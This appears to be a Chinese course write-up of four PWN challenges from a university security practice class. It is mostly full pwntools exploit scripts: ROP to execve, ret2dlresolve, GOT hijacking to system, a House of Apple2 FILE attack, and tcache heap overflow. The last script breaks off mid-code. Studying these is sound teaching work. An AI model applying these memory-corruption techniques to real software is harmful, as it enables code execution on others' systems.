

> [!summary] 
> 二进制漏洞利用部分的题目难度会稍微高一些，逆向和 PWN 也一直是信安实践「压轴题」的部分。PWN 的主要学习目标是理解程序运行过程中的内存结构、了解调试器的使用等。
> 
> 去年 PWN 的三道题完成人数分别是 $40 +$、$30 +$、$10 +$，由于有同学反映学期末时间紧张、环境配置麻烦等问题，今年将题目数量缩减到了两题、每题分值降低到了 25 分、并且降低了交互的难度。
> 
> 经过实验报告的审核，今年压轴题有 16 个提交是有效的，两道拓展题也有 2 个有效提交。

> [!tldr] 
> PWN 部分在总分中占比很少，无论是否完成了题目都不用担心这道题给最终得分带来的影响。

---
## isadbg 专业版

> [!seealso] 
> 这道题和去年出给 NebuCTF 的 [DebugMyself](https://github.com/Nebula-CTFTeam/CTF_101/tree/main/NebuCTF/pwn#debug-myself) 很像，但去年比赛时完全没有人看我的题，于是信安实践上重新拿来用了。

从设定上来说，这道题不需要选手编写利用脚本来解题，只需要通过 `stack` 指令查看栈布局，通过 `gift` 指令获取 **`pop rdi ; pop rsi ; pop rdx ; pop rax ; ret`** 等语句的地址，最后通过 `set` 指令完成栈上数据的布置就能 **getshell**：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *
from secret import mytoken

cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
context.log_level = "info"


def process_token():
    if hasattr(io, "rport"):
        ru(b"Please input your token: \n")
        sl(mytoken)
        # ia()


def cmd(data):
    ru(b"isadbg> ")
    sl(data)


process_token()

cmd(b"gift")
ru(b"Gifts:")
ru(b"0x")
popdisidxaxret = int(
    ru(b"-> pop rdi ; pop rsi ; pop rdx ; pop rax ; ret", drop=True), 16
)
ru(b"0x")
syscall_ret = int(ru(b"-> syscall ; ret", drop=True), 16)
lg("gadgets", popdisidxaxret)

cmd(b"stack 0x10")
ru(b"0 | 0x")
stack_addr = int(ru(b"| 0x", drop=True), 16)
lg("stack_addr", stack_addr)


def send_payload(base, payload):
    for i in range(len(payload)):
        cmd(b"set " + hex((i * 8) + base).encode() + b" " + hex(payload[i]).encode())


send_payload(
    stack_addr + 0x68,
    [
        popdisidxaxret,
        stack_addr,
        0,
        0,
        0x3B,
        syscall_ret,
    ],
)
send_payload(stack_addr, [u64_ex(b"/bin/sh")])
cmd(b"exit")

ia()
```

这道题需要思考的点在于 `SYS_execve` 的第一个参数需要传入指向「目标可执行文件绝对地址」字符串的指针，例如 `/bin/sh\x00` 或者 `/readflag\x00`，但是直接输在缓冲区中会让换行符 `\n` 也一起跟进去，导致利用失败。

解决方法有两种：

1. 把字符串用 set 也设置到可控地址上，这也是上面利用脚本中的做法；
2. 把输入字符串填充到 fgets 的最大读入长度（题目中是 0x30），在这种情况下 fgets 不会读入最后的换行符：`b"a"*0x29 + b"/bin/sh"`，同时栈底 canary 最低字节的 `\x00` 可以保证地址字符串的截断。

---
## isadbg 试用版

为了实现「所有必做题都可以不写脚本」的目标，这道题沿用了 isadbg 的题目框架，但是增加了一些限制：

1. 需要泄漏 ELF 与 libc 的基地址
2. 写入的地址范围受限，只能改 `.bss` 段的数据

> [!hint] 
> 题目的难点在于泄漏地址与偏移的计算，其中要求 GOT 表劫持、格式化字符串泄漏等知识。关于劫持 atoi 函数 got 表到 printf 函数 plt 表的利用是本题难点，不过已经在讲义 / 课堂上进行了充分的提示，希望做题人完成后有「眼前一亮」的感觉。
### 分析

主要漏洞函数位于 `update_to_pro`：

1. **残留数据**：这里更安全的写法是使用 buf 前先进行清零。为了使泄漏的漏洞更明显，出题时先用 `.bss` 段上的全局变量地址对 buf 进行了赋值。read 是非常底层的库函数，即它不会处理换行符，也不会在末尾添加 `\x00` 截断。因此这里如果输入一个大于 2 的十进制数就会把 command 地址泄漏出来，进而得到了 elf 的基地址。GOT 表和 elf 中的其它函数调用都可以根据 elf 基地址 + 固定偏移量得到，因此就攻破了 PIE 保护。

```c
void update_to_pro() {
    size_t buf = (size_t)&command;
    puts("Select your subscription plan:\n\t1. Yearly\n\t2. Monthly");
    read(0, (char *)&buf, 0x6);
    if (atoi((char *)&buf) > 2) {
        printf("Unsupported choice: ");
        printf("%ld\n", buf);
        return;
    }
   puts("Connection error!");
}
```

2. **任意地址写**：在 `vuln` 函数的 `set` 功能中存在一个受限的任意地址写，通过课程 / 讲义讲解可以意识到 Partial RELRO ELF 的 GOT 表也是位于这部分的，这样就可以劫持 GOT 表完成利用。

> [!info] 
> *这明明不任意啊，地址不是被限制在 `.bss` 段上了吗？*
> 
> 实际上像这种能够指定地址进行写入的能力统称为「任意地址写」，有别于普通的溢出，任意地址写可以实现分段写入数据，提供了更强大的内存控制能力。我所熟知的 V8 等 RealWorld 等漏洞利用中就是在构造「任意读」和「任意写」的原语，在此之后就有通用的模板写入 shellcode 完成完整利用。

```c
void vuln() {
// ...
        } else if (!strcmp("set", command)) {
            if (argCount != 3) {
                help_menu();
                continue;
            }
            size_t target_addr = arg1;
            size_t target_value = arg2;
            if ((target_addr >= ((size_t)&command & 0xfffffffff000)) &&
                    (target_addr <= ((size_t)&command & 0xfffffffff000) + 0x1000)) {
                *(long *)target_addr = target_value;
            }
        }
    }
}
```
### 解法1 - ret2dlresolve（非预期）

这个解法门槛较高，需要对 lazy binding 机制有更深入的理解，我把它放在前面是为了更好地解释 GOT 表和 plt 表的调用机制。

ret2dlresolve 通常用来应对栈题不给泄漏的情况，要求已经能控制程序控制流（ROP）、已知 elf 基址、没有开启 `FULL_RELRO`。

这里有几个思路类似的利用手法：

- [GLIBC - Exploitation-in-Latest-Glibc-0x01 House of Blindness](glibc-blindness)：打的是 `_dl_fini` 中的利用链，要求能够实现 elf 或 libc 范围内的任意地址写且程序正常退出，低字节覆盖 `l->l_addr` 和 `l->l_info[DT_FINI_ARRAY/DT_FINI]->d_un.d_ptr`，即可调用 elf 中的任意函数。

- [Libc-GOT-Hijacking (only works for glibc < 2.39)](https://github.com/n132/Libc-GOT-Hijacking)：将任意地址写转为 RCE，但是对于 glibc-2.39，libc 也引入了 `FULL_RELRO`，该利用方法不再适用。glibc-2.35 之后 libc GOT 表头部不再可写故引入了新的 gadget。[Issue with Libc-GOT-Hijacking Method on Newer Libc Versions (2.37, 2.38) #1](https://github.com/n132/Libc-GOT-Hijacking/issues/1)

> [!summary] 
> 对于本题，不妨来考虑原 elf 中根本没有调用过 printf 的情况，失去格式化字符串泄漏地址的能力后我们难以拿到 libc 的基地址，这时候就可以通过 `ret2dlresolve` 的方法完成利用。
#### 原理

1. 首先在调用 `libc_func@plt` 的时候，动态链接的程序并不能直接跳转到 libc 里执行，而是先 jmp 到其 got 表对应的表项上继续运行，这也是 got-hijack 利用手法的由来。

```bash
 ► 0x555555400710 <puts@plt>                         jmp    qword ptr [rip + 0x200902]    <puts@got[plt]>

   0x555555400716 <puts@plt+6>                       push   0
   0x55555540071b <puts@plt+11>                      jmp    0x555555400700                <0x555555400700>
    ↓
   0x555555400700                                    push   qword ptr [rip + 0x200902]    <_GLOBAL_OFFSET_TABLE_+8>
   0x555555400706                                    jmp    qword ptr [rip + 0x200904]    <_dl_runtime_resolve_xsavec>
```

2. 在非 `FULL_RELRO` 的情况下，程序会先将目标 got 表项序号（如此处 puts 为 0，write 为 1）推入栈中作为第二个参数，`link_map` 推入栈中作为第一个参数调用 `_dl_runtime_resolve`。源码见 [`/sysdeps/x86_64/dl-trampoline.h`](https://elixir.bootlin.com/glibc/glibc-2.27/source/sysdeps/x86_64/dl-trampoline.h)。

```bash
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 6

[0x555555601018] puts@GLIBC_2.2.5 -> 0x555555400716 (puts@plt+6) ◂— push 0 /* 'h' */
[0x555555601020] write@GLIBC_2.2.5 -> 0x555555400726 (write@plt+6) ◂— push 1
[0x555555601028] strlen@GLIBC_2.2.5 -> 0x555555400736 (strlen@plt+6) ◂— push 2
[0x555555601030] __stack_chk_fail@GLIBC_2.4 -> 0x555555400746 (__stack_chk_fail@plt+6) ◂— push 3
[0x555555601038] read@GLIBC_2.2.5 -> 0x555555400756 (read@plt+6) ◂— push 4
[0x555555601040] setvbuf@GLIBC_2.2.5 -> 0x555555400766 (setvbuf@plt+6) ◂— push 5
```

3. 最后 `_dl_runtime_resolve` 函数内部调用 `_dl_fixup` 实现动态库中函数的查找，实则又是通过字符串定位的目标函数。源码见 [`/elf/dl-runtime.c#L61`](https://elixir.bootlin.com/glibc/glibc-2.27/source/elf/dl-runtime.c#L61)。

其中有如下关键定义：

- [Dynamic section](https://elixir.bootlin.com/glibc/glibc-2.27/source/elf/elf.h#L835)

```c
/* Dynamic section entry.  */

typedef struct
{
  Elf32_Sword	d_tag;			/* Dynamic entry type */
  union
    {
      Elf32_Word d_val;			/* Integer value */
      Elf32_Addr d_ptr;			/* Address value */
    } d_un;
} Elf32_Dyn;

typedef struct
{
  Elf64_Sxword	d_tag;			/* Dynamic entry type */
  union
    {
      Elf64_Xword d_val;		/* Integer value */
      Elf64_Addr d_ptr;			/* Address value */
    } d_un;
} Elf64_Dyn;

/* Legal values for d_tag (dynamic entry type).  */

#define DT_NULL		0		/* Marks end of dynamic section */
#define DT_NEEDED	1		/* Name of needed library */
#define DT_PLTRELSZ	2		/* Size in bytes of PLT relocs */
#define DT_PLTGOT	3		/* Processor defined value */
#define DT_HASH		4		/* Address of symbol hash table */
#define DT_STRTAB	5		/* Address of string table */
#define DT_SYMTAB	6		/* Address of symbol table */
// ...
#define DT_REL		17		/* Address of Rel relocs */
// ...
```

- `Elf64_Sym`

```c
typedef struct {
  Elf64_Word  st_name;     /* Symbol name (string tbl index) */
  unsigned char st_info;   /* Symbol type and binding */
  unsigned char st_other;  /* Symbol visibility under glibc>=2.2 */
  Elf64_Section st_shndx;  /* Section index */
  Elf64_Addr  st_value;    /* Symbol value */
  Elf64_Xword st_size;     /* Symbol size */
} Elf64_Sym;
```

`NO_RELRO` 的场景下可以直接写 `_DYNAMIC` 区域内存，在另一个地方伪造新的 strtab 并存入 `_DYNAMIC.DT_STRTAB`，在 `Partial_RELRO` 的情况下，GOT 表以外的数据段就变成了只读（包括上面的 `_DYNAMIC`），但是 GOT 表仍然是可写的（为了支持 lazy binding 加速程序启动速度）。在这种情况下上述针对 `NO_RELRO` 修改 `DT_STRTAB` 的利用方法就失效了，但 `link_map` 还是可以伪造的。

利用的关键在 [`_dl_fixup`](https://elixir.bootlin.com/glibc/glibc-2.27/source/elf/dl-runtime.c#L61) 函数里，函数本身比较复杂。但是假如把关注点放在伪造 `link_map` 任意调用 libc 函数上，我们就只需要使 `l->l_addr` 为自定义偏移值，`sym->st_value` 为已解析函数，最后手动模拟 plt 表中调用 `_dl_runtime_resolve` 函数就能在无泄漏的情况下任意调用 libc 函数。

```c
_dl_fixup (struct link_map *l, ElfW(Word) reloc_arg)
{
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

  /* Sanity check that we're really looking at a PLT relocation.  */
  assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

   /* Look up the target symbol.  If the normal lookup rules are not
      used don't look in the global scope.  */
  if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
    {
        // ...
    }
  else
    {
      /* We already found the symbol.  The module (and therefore its load
	 address) is also known.  */
      value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
      result = l;
    }
```

继续结合调试分析 `link_map` 伪造格式：

```python
fake_link_map = flat({
    0x00: [l_addr],      # 存放自定义偏移值
    0x68: [your_strtab], # 避免段错误，l_info[DT_STRTAB]
    0x70: [fake_symtab], # 这里需要构造一个已解析的 symtab，事实上通常指向第一个 got 表项函数 - 8 的地址
    0xF8: [fake_rel],    # 这里绕过 assertion，value 需要指向 [writeable_addr - l_addr, 7]
})
```

这里值得思考的是 `fake_symtab` 的构造，其它都可以根据调试逆推得到：

1. 首先最终利用要借助 `l->l_addr + sym->st_value`，前者已经能够由伪造 `link_map` 任意控制，后者最好是一个已解析的 got 表项的值。

2. 还要绕过 `sym->st_other != 0`，调试可以得到 `( *(sym + 5) ) & 0x03 != 0` 的条件。

故 got 表项中的第一项是最合适的 `sym->st_value` 值，同时也符合条件 2。
#### 解题

回到题目中，泄漏 elf 基地址的方法是一样的，在此之后可以按照上述思路构造出如下 `fake_link_map` 结构：

```python
my_buf = elf_base + 0x4000 + 0x300
l_addr = libc.sym.system - libc.sym.puts
r_offset = my_buf + 0x200 - l_addr
fake_rel_addr = my_buf + 0x38

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

lg("l_addr", l_addr)

dynstr = elf.get_section_by_name(".dynstr").header.sh_addr + elf_base
plt0 = elf.get_section_by_name(".plt").header.sh_addr + elf_base
lg("my_buf", my_buf)
lg("dynstr", dynstr)
lg("plt0", plt0)

send_payload(
    my_buf,
    [
        l_addr,
        0x05,
        dynstr,
        0x06,
        elf.got.puts + elf_base - 8,
        0x11,
        fake_rel_addr,
        r_offset,
        7,
        0,
        0,
        0,
        0,
        my_buf + 0x08,
        my_buf + 0x18,
    ],
)

send_payload(my_buf + 0xF8, [my_buf + 0x28])
```

接下来要完成利用，还要构造出 `[my_buf, 0]` 的栈布局并且调用到 `plt0 + 6` 的位置，这对于常规 ret2dlresolve 栈溢出的例题而言并不困难，但是本题只能篡改 `.bss` 段上的内存，没有提供栈上 ROP 的能力，通常会想到**栈迁移**之类的做法，不过这里还有更简单的解法

![[static/wp-infosec2024-0.png]]
![[static/wp-infosec2024-1.png]]

我用 ropper 看了一下，题目中并没有能够直接操作栈的 gaegets，但是 plt 头部本身就提供了先 `push 0x0` 再 jump 到 plt0 的位置 `push [_GLOBAL_OFFSET_TABLE_+8]` 的调用链，got 表又是可写的，因此就免去了栈迁移的麻烦。

因此可以篡改 puts 以外的某个函数的 got 表项到上面 `0x555555555034` 的位置，再布置好 GOT 表上 `[_GLOBAL_OFFSET_TABLE_+8] = my_buf` 实现利用，最终 exp 如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc(
    "/home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6"
)

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(data):
    ru(b"isadbg> ")
    sl(data)


cmd(b"subscribe")
ru(b"\t2. Monthly\n")
s(b"3")
ru(b"Unsupported choice: ")
elf_base = int(ru(b"\n", drop=True), 10) - 0x4033
lg("elf_base", elf_base)


def send_payload(base, payload):
    for i in range(len(payload)):
        cmd(b"set " + hex((i * 8) + base).encode() + b" " + hex(payload[i]).encode())


my_buf = elf_base + 0x4000 + 0x300
l_addr = libc.sym.system - libc.sym.puts
r_offset = my_buf + 0x200 - l_addr
fake_rel_addr = my_buf + 0x38

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

lg("l_addr", l_addr)

dynstr = elf.get_section_by_name(".dynstr").header.sh_addr + elf_base
plt0 = elf.get_section_by_name(".plt").header.sh_addr + elf_base
lg("my_buf", my_buf)
lg("dynstr", dynstr)
lg("plt0", plt0)

send_payload(
    my_buf,
    [
        l_addr,
        0x05,
        dynstr,
        0x06,
        elf.got.puts + elf_base - 8,
        0x11,
        fake_rel_addr,
        r_offset,
        7,
        0,
        0,
        0,
        0,
        my_buf + 0x08,
        my_buf + 0x18,
    ],
)

send_payload(my_buf + 0xF8, [my_buf + 0x28])


send_payload(elf_base + 0x4008, [my_buf])
send_payload(elf_base + elf.got.atoi, [elf_base + 0x1030])

cmd(b"subscribe")
ru(b"\t2. Monthly\n")
s(b"sh\x00")

ia()
```
### 解法2 - GOT Hijacking

回到标准解法，思路其实已经呈现在第二次课讲义中了，这里再引用一下：
#### 本地运行程序

若下载附件后本地运行报错，多半是 libc 版本的问题，可以 `ldd --version` 查看本地的 libc 版本，用 patchelf 工具来改变题目可执行文件的动态链接库路径：

```bash
# 安装 patchelf
sudo apt install -y patchelf
# patch
## 题目打包时把 libc 文件放到了 src 目录下
cp ../../src/ld-2.35.so ./
cp ../../src/libc-2.35.so ./
patchelf --replace-needed libc.so.6 ./libc-2.35.so ./limiteddbg
patchelf --set-interpreter ./ld-2.35.so ./limiteddbg

# 此时 ldd 结果应该如下：
ldd limiteddbg
#         linux-vdso.so.1 (0x00007ffff7fc6000)
#         ./libc-2.35.so (0x00007ffff7c00000)
#         ./ld-2.35.so
```

此外如果想要 glibc 的调试信息，可以直接借助 [glibc-all-in-one](https://github.com/matrix1001/glibc-all-in-one) 下载打包好的 libc。
#### got 表与 plt 表

课上演示了篡改 got 表后会发生什么，即设置好参数后执行篡改后的地址。

例如程序原本写了 `puts("hello")`，编译出来就是 `mov rdi, hello_string_address; call puts@plt`，而 `puts@plt` 内代码最终会执行 `jmp [puts@got]`，即通过篡改 got 表可以实现控制流的劫持。
#### 计算偏移

因为开启了 ASLR 和 PIE，所以每次运行程序所有地址都会发生变化，包括 got 表、静态变量区、栈、libc 函数等，因此要在利用过程中完成如下过程：



计算偏移的方法很多，包括 gdb 或 python。
#### 解题

至于标准解法是不需要编写脚本的，这里演示直接在命令行中解题的办法：

1. 连接远程题目，同时本地开启一个计算偏移的工具（ipython / gdb 等都可以）。

2. 泄漏 ELF 基地址，这需要借助 `subscribe` 功能：

	- 注意输入数字后不能传入换行符，而需要用 `ctrl + D` 传入 EOF：
	```bash
	USTC-Information-Security-Architecture-and-Practice isadbg-limited-version (ISA 2024) isacourse-2024-Spring
	Update to Pro $114,514
	For help, type "help".
	isadbg> help
	help:
	        subscribe : Update to PRO!!
	        telescope REQUIRES PRO VERSION
	        stack REQUIRES PRO VERSION
	        set [addr] [data] : set value, example:
	                set 0xdeadbeef 0xcafecafe
	                addr is limited to .bss
	        help : show this menu
	        quit : leave isadbg
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	3Unsupported choice: 93843591008307
	isadbg>
	```
	
	- 计算偏移，这里选用 `python + pwntools`：
```python
❯ ipython
  Python        :  3.11.9 (main, Apr  2 2024, 08:25:04) [GCC 13.2.0]
  IPython       :  8.23.0
  Interpreter   :  /nix/store/3qwa9wgjfcqil4fnml69wh9745jfvc3g-python3-3.11.9-env/bin/python3.11

[ins] In [1]: from pwn import *

[ins] In [2]: elf = ELF("./pwn")
[*] '/home/eastxuelian/workspace/TA/info-sec/binary-challenges/hackergame-challenge-docker/limiteddbg/exp/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[ins] In [3]: elf_base = (93843591008307 & ~0xfff) - (elf.sym.command & ~0xfff)

[ins] In [4]: hex(elf_base)
Out[4]: '0x5559a9e7d000'
```

3. 得到 elf 基地址后可以篡改 `atoi` 的 got 表项为 `printf` 以泄漏 libc 地址：

	- 计算偏移：
	```python
	[ins] In [5]: hex(elf_base + elf.got.atoi)
	Out[5]: '0x5559a9e81058'
	
	[ins] In [6]: hex(elf_base + elf.plt.printf)
	Out[6]: '0x5559a9e7e0f4'
	```

	- 利用：
	```bash
	isadbg> set 0x5559a9e81058 0x5559a9e7e0f4
	```

4. 用格式化字符串来泄漏地址，这里提供一种无需调试的办法：

	- 先在本地运行起来，用 `cat /proc/<pid>/maps` 确定 libc 地址范围：
	```bash
	❯ ps -aux | grep pwn
	eastxue+ 2483885  0.0  0.0   2660  1120 pts/9    S+   13:52   0:00 ./pwn
	❯ cat /proc/2483885/maps
	# ...
	7f3c8a400000-7f3c8a428000 r--p 00000000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a428000-7f3c8a5bd000 r-xp 00028000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a5bd000-7f3c8a615000 r--p 001bd000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a615000-7f3c8a616000 ---p 00215000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a616000-7f3c8a61a000 r--p 00215000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	7f3c8a61a000-7f3c8a61c000 rw-p 00219000 00:21 9791780                    /home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6
	# ...
	```

	- 再依次试格式化字符串泄漏，直到得到一个符合范围的地址，因此可以确定格式化字符串参数位置：
	```bash
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%1$p
	0x7fffc8c378f0
	UUnsupported choice: 93503319453989
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%2$p
	0x6
	UUnsupported choice: 93503319454245
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%3$p
	0x7f3c8a5147e2
	UUnsupported choice: 93503319454501
	```

	- 可喜可贺的是，第三个地址就符合要求，因此泄漏 libc 的 payload 确定为 `%3$p`，计算出远程 libc 地址如下：

	```bash
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%3$p.
	0x7fea62b147e2.
	Unsupported choice: 11194566193957
	```

	```python
	[ins] In [7]: libc_base = 0x7fea62b147e2 - (0x7f3c8a5147e2 - 0x7f3c8a400000)
	
	[ins] In [8]: hex(libc_base)
	Out[8]: '0x7fea62a00000'
	```

5. 最后一步就是劫持 atoi 的 got 表到 libc 中的 system 函数并且执行 `system("sh;)`，此处分号是因为原 atoi 的参数是用 read 读入的，并且没有 `\x00` 截断，为了防止栈上脏数据影响利用故用分号隔开。

	- 先计算出 system 函数在 libc 中的地址：
	```python
	[ins] In [8]: hex(libc_base)
	Out[8]: '0x7fea62a00000'
	
	[ins] In [9]: libc = ELF("./../src/libc-2.35.so")
	[*] '/home/eastxuelian/workspace/TA/info-sec/binary-challenges/hackergame-challenge-docker/limiteddbg/src/libc-2.35.so'
	    Arch:     amd64-64-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      PIE enabled
	
	[ins] In [10]: hex(libc_base + libc.sym.system)
	Out[10]: '0x7fea62a50d70'
	```

	- 劫持 got 表项完成利用：
	```bash
	isadbg> set 0x5559a9e81058 0x7fea62a50d70
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	sh;
	sh-5.2$
	```

完整利用截图如下：

![[static/wp-infosec2024-2.png]]

---
## isadbg 免费版

这道题有两个考查点：

1. IO leak
2. 在新版本 libc 下拥有了**全局任意读写**能力后怎么 getshell

第一步的 IO leak 需要爆破 $\frac{1}{16}$ 的概率，第二步则非常自由，可以再次使用 IO leak 去泄漏 libc 中 environ 变量的内容得到栈地址，回到栈上进行 ROP。或者可以用 IO 相关的攻击，下面演示了 House of Apple2 的利用：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc(
    "/home/eastxuelian/config/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6"
)

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(data):
    ru(b"> ")
    sl(data)


def send_payload(base, payload):
    cmd(b"set " + hex(base).encode())
    ru(b"Send your data:\n")
    s(payload)


luckybit = __import__("random").randint(1, 15)

send_payload(0x404020, flat([0xFBAD1887, 0, 0, 0]) + p16(0x700 | (luckybit << 12)))
rn(8)
libc_base = u64_ex(rn(8)) - 0x21B780
assert (
    (libc_base & 0xFFF == 0)
    and (libc_base > 0x700000000000)
    and (libc_base < 0x7FFFFFFFF000)
)
lg("libc_base", libc_base)

send_payload(
    0x404068,
    flat(
        {
            0x8: {
                0x18: 0,
                0x30: 0,
                0xE0: 0x404068 + 0x8 + 0xF0,
                0xF0: {
                    0x68: libc_base + libc.sym.system,
                },
            }
        },
        filler=b"\x00",
    ),
)

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._IO_write_ptr = 1
f1._lock = libc_base + 0x21CA70
f1._wide_data = 0x404068 + 8
f1.vtable = libc_base + libc.sym._IO_wfile_jumps

send_payload(0x404040, bytes(f1))

cmd(b"exit")

ia()
```

---
## 测测你的 uri

这是一道整数溢出导致堆溢出的题目，灵感来源于 CVE-2024-34402、CVE-2024-34403 两个 CVE，难点在于虽然溢出长度是无限的，但是难以写入不可见字符。

因此要完成利用需要进行一些堆风水，篡改堆块的大小导致堆块重叠，进而进行 Tcache bin 的利用。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(choice):
    ru(b"Choice >")
    sl(i2b(choice))


def input_uri(idx, size, data):
    cmd(1)
    ru(b"Enter index:\n")
    sl(i2b(idx))
    ru(b"Enter uri length:\n")
    sl(i2b(size))
    ru(b"Enter uri string:\n")
    s(data)


def compose_query(idx, key, val):
    cmd(2)
    ru(b"Enter index:\n")
    sl(i2b(idx))
    ru(b"Enter key:\n")
    s(key)
    ru(b"Enter val:\n")
    s(val)


def show(idx):
    cmd(3)
    ru(b"Enter index:\n")
    sl(i2b(idx))


def delet(idx):
    cmd(4)
    ru(b"Enter index:\n")
    sl(i2b(idx))
    

input_uri(1, 0x30, b"aaa")
input_uri(2, 0x40, b"bbb")
input_uri(3, 0x10, b"ccc")
input_uri(4, 0x520, b"ddd")
input_uri(5, 0x520, b"eee")
delet(1)
delet(4)

compose_query(0, b"a" * 1, b"1" * (0x80 + 6) + p8(0x71))
delet(3)
input_uri(3, 0x68, b"a" * 0x20)
show(3)
ru(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
libc_base = u64_ex(rn(6)) - 0x21ACE0
lg("libc_base", libc_base)
delet(3)
input_uri(3, 0x68, flat({0x18: [0x531]}))
input_uri(4, 0x520, b"ddd")
delet(3)
input_uri(3, 0x68, flat({0x18: [0x101]}))
delet(4)
delet(3)
input_uri(3, 0x68, b"a" * 0x20)
show(3)
ru(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
heap_key = u64_ex(rn(5))
heap_base = heap_key << 12
lg("heap_base", heap_base)

delet(3)
input_uri(
    3,
    0x68,
    flat(
        {
            0x18: 0x101,
        }
    ),
)
input_uri(4, 0x100 - 0x10, b"aaa")
input_uri(6, 0x100 - 0x10, b"aaa")
input_uri(7, 0x100 - 0x10, b"aaa")
delet(7)
delet(6)
delet(4)

delet(3)
input_uri(
    3,
    0x68,
    flat(
        {
            0x18: [
                0x101,
                heap_key ^ (libc_base + 0x222200 - 0x10),
            ],
        }
